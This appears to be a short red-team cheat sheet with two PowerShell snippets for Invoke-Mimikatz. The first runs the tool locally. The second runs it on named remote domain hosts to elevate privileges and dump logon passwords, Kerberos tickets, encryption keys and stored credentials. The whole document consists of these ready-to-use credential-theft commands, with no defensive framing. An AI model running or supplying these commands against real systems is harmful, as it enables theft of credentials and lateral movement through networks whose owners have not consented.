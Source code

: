 # Invoke-Mimikatz
```powershell
Invoke-Mimikatz
```

# Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets" "sekurlsa::ekeys" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```
